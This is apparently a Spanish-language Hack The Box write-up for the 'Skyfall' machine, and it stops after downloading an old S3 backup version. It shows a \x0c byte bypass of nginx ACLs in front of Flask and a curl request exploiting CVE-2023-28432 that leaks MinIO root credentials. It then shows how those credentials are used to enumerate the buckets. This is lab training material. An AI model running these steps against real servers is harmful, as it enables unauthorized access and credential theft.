+++
author = "Andrés Del Cerro"
title = "Hack The Box: Skyfall Writeup | Insane"
date = "2024-09-05"
description = ""
tags = [
    "HackTheBox",
    "Skyfall",
    "Writeup",
    "Cybersecurity",
    "Penetration Testing",
    "CTF",
    "Reverse Shell",
    "Privilege Escalation",
    "RCE",
    "Exploit",
    "Linux",
    "HTTP Enumeration",
    "Exploiting HTTP Parser Inconsistencies",
    "403 Bypass",
    "MinIO Enumeration",
    "Information Disclosure",
    "CVE-2023-28432",
    "S3 Enumeration",
    "Vault Enumeration",
    "Abusing Vault SSH OTP",
    "Bypass Unix Permissions",
    "FUSE",
    "Abusing user_allow_other"
]

+++

# Hack The Box: Skyfall Writeup

Welcome to my detailed writeup of the insane difficulty machine **"Skyfall"** on Hack The Box. This writeup will cover the steps taken to achieve initial foothold and escalation to root.

# TCP Enumeration

```console
$ rustscan -a 10.129.230.158 --ulimit 5000 -g
10.129.230.158 -> [22,80]
```

```console
$ nmap -p22,80 -sCV 10.129.230.158 -oN allPorts
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 19:59 CEST
Nmap scan report for 10.129.230.158
Host is up (0.036s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 65:70:f7:12:47:07:3a:88:8e:27:e9:cb:44:5d:10:fb (ECDSA)
|_  256 74:48:33:07:b7:88:9d:32:0e:3b:ec:16:aa:b4:c8:fe (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Skyfall - Introducing Sky Storage!
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.97 seconds
```
# UDP Enumeration

```console
$ sudo nmap --top-ports 1500 -sU --min-rate 5000 -n -Pn 10.129.230.158 -oN allPorts.UDP
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-05 19:59 CEST
Nmap scan report for 10.129.230.158
Host is up (0.036s latency).
Not shown: 1495 open|filtered udp ports (no-response)
PORT      STATE  SERVICE
69/udp    closed tftp
6346/udp  closed gnutella
18617/udp closed unknown
20423/udp closed unknown
27195/udp closed unknown

Nmap done: 1 IP address (1 host up) scanned in 0.83 seconds
```

# HTTP Enumeration
Solo encontramos el servicio web como posible punto de entrada de la máquina.
`whatweb`nos reporta varias cosas interesantes.
```console
$ whatweb http://10.129.230.158
http://10.129.230.158 [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[askyy@skyfall.htb,btanner@skyfall.htb,contact@skyfall.com,jbond@skyfall.htb], Frame, HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.230.158], Lightbox, Script, Title[Skyfall - Introducing Sky Storage!], nginx[1.18.0]
```

Vemos varios correos electrónicos.
```
askyy@skyfall.htb,btanner@skyfall.htb,contact@skyfall.com,jbond@skyfall.htb
```

Vamos a añadir el dominio `skyfall.htb` al `/etc/hosts`

Y vamos a hacer una pequeña lista de usuarios por si nos sirve en un futuro.
```console
$ cat users.txt 
askyy
btanner
contact
jbond
```

Así se ve el sitio web.


Vemos el subdominio `demo.skyfall.htb`


Se nos incluye unas credenciales de acceso, `guest:guest`


Leyendo las tareas podemos deducir que existe un S3 por detrás para almacenamiento y que debe de haber una instancia de Minio.


En el apartado `Files` podemos descargar un archivo. `Welcome.pdf`

Si cambiamos el link de descarga por un archivo que no exista vemos un error de S3.


Vemos varios sitios restringidos, `/beta`, `/metrics`.


Existe una función en `/fetch` para "descargar" el contenido de un sitio web.

Al probar una traza hacia mi equipo vemos que llega.
```console
 python3 -m http.server 8081
Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
10.129.230.158 - - [05/Sep/2024 20:12:09] "GET / HTTP/1.1" 200 -
```

Al intentar un SSRF no consigue realizar la conexión.


Me di cuenta de que se reflejaba el nombre del host al que está intentando conectarse, al ver que la aplicación estaba hecha en Flask intenté realizar un SSTI pero fue fallido.

Vemos varios formularios pero tras intentar inyectar una imagen de nuestro servidor para ver si se acontece un XSS no conseguimos nada.

## Bypassing 403 -> Exploiting HTTP Parser Inconsistencies
Viendo el mensaje de 403 Forbidden, no es un mensaje personalizado como puede ser el 404 Not Found. Es el mensaje de `nginx`, esto significa que esta restricción se debe de estar haciendo a nivel de Proxy seguramente.



Podemos ver [este post](https://rafa.hashnode.dev/exploiting-http-parsers-inconsistencies) que encontré en HackTricks donde en el apartado `Bypassing Nginx ACL Rules With Flask` encontramos algo muy curioso.

> Flask removes the characters \x85, \xA0, \x1F, \x1E, \x1D, \x1C, \x0C, \x0B, and \x09 from the URL path, but NGINX doesn't.

Esto significa que si en `nginx` tenemos una configuración como la siguiente
```console
location = /admin {
    deny all;
}

location = /admin/ {
    deny all;
}
```

Y en nuestro servidor flask tenemos el endpoint abierto, es decir, que nos fiamos de `nginx` al 100%.
```python
@app.route('/admin', methods = ['GET'])
def admin():
    data = {"url":request.url, "admin":"True"}

    return Response(str(data), mimetype="application/json")
```

> As you can see below, it's possible to circumvent the ACL protection by adding the character \x85 at the end of the pathname:

Podríamos saltarnos esta restricción añadiendo el carácter `\x85` al final del `pathname`

Para probar, añadimos el byte en esta posición.


Podemos ver que está insertado correctamente.


Y no conseguimos nada.


Vamos a probar los demás caracteres.
`\x85, \xA0, \x1F, \x1E, \x1D, \x1C, \x0C, \x0B, and \x09`

¡El byte `\x0c` sirve para saltarnos esta restricción!


Al final de todas las métricas encontramos una URL, según el atributo es un endpoint de `minio`.


Agregamos el subdominio `prd23-s3-backend.skyfall.htb` al `/etc/hosts`

## Information Disclosure -> CVE-2023-28432
Tras buscar vulnerabilidades en Minio, encontré [el siguiente post](https://www.sentinelone.com/blog/cve-2023-28432/) donde habla de una fuga de información que ocurre en un endpoint en una versión desactualizada de este software.

En esta vulnerabilidad al mandar una petición POST al endpoint `/minio/bootstrap/v1/verify` se filtrarían los campos `MINIO_ROOT_USER` y `MINIO_ROOT_PASSWORD`

Podemos hacer esta petición con cURL mismamente.
```console
$ curl -X POST http://prd23-s3-backend.skyfall.htb/minio/bootstrap/v1/verify
```
```json
{"MinioEndpoints":[{"Legacy":false,"SetCount":1,"DrivesPerSet":4,"Endpoints":[{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data1","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node1:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":true},{"Scheme":"http","Opaque":"","User":null,"Host":"minio-node2:9000","Path":"/data2","RawPath":"","OmitHost":false,"ForceQuery":false,"RawQuery":"","Fragment":"","RawFragment":"","IsLocal":false}],"CmdLine":"http://minio-node{1...2}/data{1...2}","Platform":"OS: linux | Arch: amd64"}],"MinioEnv":{"MINIO_ACCESS_KEY_FILE":"access_key","MINIO_BROWSER":"off","MINIO_CONFIG_ENV_FILE":"config.env","MINIO_KMS_SECRET_KEY_FILE":"kms_master_key","MINIO_PROMETHEUS_AUTH_TYPE":"public","MINIO_ROOT_PASSWORD":"GkpjkmiVmpFuL2d3oRx0","MINIO_ROOT_PASSWORD_FILE":"secret_key","MINIO_ROOT_USER":"5GrE1B2YGGyZzNHZaIww","MINIO_ROOT_USER_FILE":"access_key","MINIO_SECRET_KEY_FILE":"secret_key","MINIO_UPDATE":"off","MINIO_UPDATE_MINISIGN_PUBKEY":"RWTx5Zr1tiHQLwG9keckT0c45M3AGeHD6IvimQHpyRywVWGbP1aVSGav"}}
```

Vemos que el usuario es: `5GrE1B2YGGyZzNHZaIww`
La contraseña es: `GkpjkmiVmpFuL2d3oRx0`

Ahora tenemos acceso completo a la instancia de Minio, por lo cual tenemos acceso a todos los archivos que estén en el S3.

Nos podemos descargar `mc` que es un cliente de consola para Minio de [aquí](https://dl.min.io/client/mc/release/linux-amd64/mc)

```console
wget https://dl.min.io/client/mc/release/linux-amd64/mc
```

Ahora le damos permisos de ejecución
```console
$ chmod +x mc
```

Y ya lo podemos usar.

Como son unas credenciales largas y dificiles de recordar, un consejo que os doy es exportar unas variables globales que se llamen `USERNAME` y `PASSWORD` con las credenciales y así no tenéis que recordarlas, simplemente podéis invocar las variables `$USERNAME` y `$PASSWORD`

Las credenciales están guardadas en el fichero `combo.txt` donde a la izquierda está el usuario y delimitado con `:` a la derecha está la credencial.
```console
$ cat combo.txt 
5GrE1B2YGGyZzNHZaIww:GkpjkmiVmpFuL2d3oRx0
```

```console
$ export USERNAME=$(cat combo.txt | awk -F: '{print $1}'
$ export PASSWORD=$(cat combo.txt | awk -F: '{print $2}')
```

Y lo podemos comprobar 
```console
$ echo $USERNAME
5GrE1B2YGGyZzNHZaIww
$ echo $PASSWORD
GkpjkmiVmpFuL2d3oRx0
```

Según la [documentación de Minio]()(https://min.io/docs/minio/linux/reference/minio-mc/minio-client-settings.html) podemos configurar cual es nuestro S3 con `mc alias set`


`mc alias set myminio https://myminio.example.net minioadminuser minioadminpassword`

Nos encontramos con el siguiente error.
```console
$ ./mc alias set skyfall http://prd23-s3-backend.skyfall.htb/ $USERNAME $PASSWORD
mc: <ERROR> Unable to initialize new alias from the provided credentials. The difference between the request time and the server's time is too large.
```

Esto pasa porque la hora de mi sistema está desincronizada.

Podemos sincronizarla de esta manera.
```console
sudo ntpdate ntp.ubuntu.com
```

Y ahora si que podemos añadir el alias.
```console
$ ./mc alias set skyfall http://prd23-s3-backend.skyfall.htb $USERNAME $PASSWORD
Added `skyfall` successfully.
```

## Exploring S3 -> Information Leakage
Ahora podemos explorar los buckets.
```console
$ ./mc ls skyfall
[2023-11-08 05:59:15 CET]     0B askyy/
[2023-11-08 05:58:56 CET]     0B btanner/
[2023-11-08 05:58:33 CET]     0B emoneypenny/
[2023-11-08 05:58:22 CET]     0B gmallory/
[2023-11-08 01:08:01 CET]     0B guest/
[2023-11-08 05:59:05 CET]     0B jbond/
[2023-11-08 05:58:10 CET]     0B omansfield/
[2023-11-08 05:58:45 CET]     0B rsilva/
```

Con un one-liner en bash podemos ver todos los archivos de los buckets de los usuarios fácilmente.
```console
$ for user in $(./mc ls skyfall | awk '{print $5}'); do echo "En el usuario $user ->" && ./mc ls skyfall/$user; done
En el usuario askyy/ ->
[2023-11-08 06:35:28 CET]  48KiB STANDARD Welcome.pdf
[2023-11-09 22:37:25 CET] 2.5KiB STANDARD home_backup.tar.gz
En el usuario btanner/ ->
[2023-11-08 06:35:36 CET]  48KiB STANDARD Welcome.pdf
En el usuario emoneypenny/ ->
[2023-11-08 06:35:56 CET]  48KiB STANDARD Welcome.pdf
En el usuario gmallory/ ->
[2023-11-08 06:36:02 CET]  48KiB STANDARD Welcome.pdf
En el usuario guest/ ->
[2023-11-08 01:08:05 CET]  48KiB STANDARD Welcome.pdf
En el usuario jbond/ ->
[2023-11-08 06:35:45 CET]  48KiB STANDARD Welcome.pdf
En el usuario omansfield/ ->
[2023-11-08 06:36:09 CET]  48KiB STANDARD Welcome.pdf
En el usuario rsilva/ ->
[2023-11-08 06:35:51 CET]  48KiB STANDARD Welcome.pdf
```

Vemos que el usuario `askyy` tiene un fichero `home_backup.tar.gz`

Nos podemos descargar este comprimido.
```console
$ ./mc get skyfall/askyy/home_backup.tar.gz .
...kup.tar.gz: 2.48 KiB / 2.48 KiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 20.93 KiB/s 0s
```

Podemos extraer el comprimido y vemos que contienen varios directorios y archivos típicos de un directorio de trabajo de un usuario en un sistema linux.
```console
$ tar -xvf home_backup.tar.gz 
./
./.profile
./.bashrc
./.ssh/
./.ssh/authorized_keys
./.sudo_as_admin_successful
./.bash_history
./.bash_logout
./.cache/
./.cache/motd.legal-displayed
```

Analizando estos archivos no encontramos nada.

Revisando otra vez la documentación de Minio, me encontré que existe un sistema de versioning, es decir, que ese archivo quizás tenga una versión mas antigua con otra información (como los commits de Git)


Vemos que está habilitado.
```console
 ./mc version info skyfall/askyy
skyfall/askyy versioning is enabled
```

Podemos hacer otra vez un `mc ls skyfall/askyy` pero con el parámetro `--versions` para ver todas las versiones del archivo.
```console
$ ./mc ls skyfall/askyy --versions
[2023-11-08 06:35:28 CET]  48KiB STANDARD bba1fcc2-331d-41d4-845b-0887152f19ec v1 PUT Welcome.pdf
[2023-11-09 22:37:25 CET] 2.5KiB STANDARD 25835695-5e73-4c13-82f7-30fd2da2cf61 v3 PUT home_backup.tar.gz
[2023-11-09 22:37:09 CET] 2.6KiB STANDARD 2b75346d-2a47-4203-ab09-3c9f878466b8 v2 PUT home_backup.tar.gz
[2023-11-09 22:36:30 CET] 1.2MiB STANDARD 3c498578-8dfe-43b7-b679-32a3fe42018f v1 PUT home_backup.tar.gz
```

Vemos que hay una versión que pesa mucho mas que el resto, la versión `3c498578-8dfe-43b7-b679-32a3fe42018f` , nos vamos a descargar esta versión.

```console
$ ./mc cp --version-id 3c498578-8dfe-43b7-b679-32a3fe42018f skyfall/askyy/home_backup.tar.gz ./home_backup_v1.tar.gz
...me_backup.tar.gz: 1.18 MiB / 1.18 MiB ┃▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓▓┃ 2.55 MiB/s 0s
```

